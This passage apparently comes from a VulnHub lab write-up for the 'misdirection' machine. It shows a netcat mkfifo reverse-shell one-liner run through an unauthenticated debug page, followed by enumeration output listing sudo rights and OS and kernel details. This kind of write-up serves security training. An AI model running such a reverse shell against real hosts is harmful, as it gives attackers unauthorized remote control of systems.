 ![](../../assets/img/vulnhub/mis3.png)


Using a netcat listener and netcat on the system, we can acquire a reverse shell on the /debug page.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.2 443 >/tmp/f
```

## Exploit

A globally open debug shell on the web server permits an attacker to execute commands on the host without authentication.

![](../../assets/img/vulnhub/mis4.png)

![](../../assets/img/vulnhub/mis5.png)

## Post-Exploit Enumeration

### Current User

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```


### OS & Kernel

```bash
NAME="Ubuntu"
VERSION="18.04.2 LTS (Bionic Beaver)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 18.04.2 LTS"
VERSION_ID="18.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=bionic
UBUNTU_CODENAME=bionic
    
Linux misdirection 4.15.0-50-generic #54-Ubuntu SMP Mon May 6 18:46:08 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
